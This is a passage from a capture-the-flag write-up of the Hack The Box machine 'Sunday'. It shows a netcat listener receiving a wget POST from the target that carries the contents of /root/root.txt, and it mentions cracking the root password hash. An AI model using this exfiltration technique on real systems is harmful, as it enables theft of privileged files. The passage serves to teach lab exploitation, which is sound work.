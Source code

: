 We can see the differences with the backup, being the main one that we have the root hash. Now, we could repeat the same process and try to crack the hash to get to root (with shell access) or we could simply send us the contents of ``/root/root.txt``:

```console
parallels@ubuntu:~/Desktop/Sunday$ nc -lnvp 8002
Listening on [0.0.0.0] (family 0, port 8002)
Connection from [10.10.10.76] port 8002 [tcp/*] accepted (family 2, sport 40042)
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.6:8002
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0d97af9b8
```

And that's how we got the hash!

I also checked the contents of ``/root/troll`` and ``/backup/agent22.backup`` (out of curiosity) and it turned out they were the same:

```sh
#!/usr/bin/bash

/usr/bin/echo "testing"
/usr/bin/id
```

*Diego Bernal Adelantado*
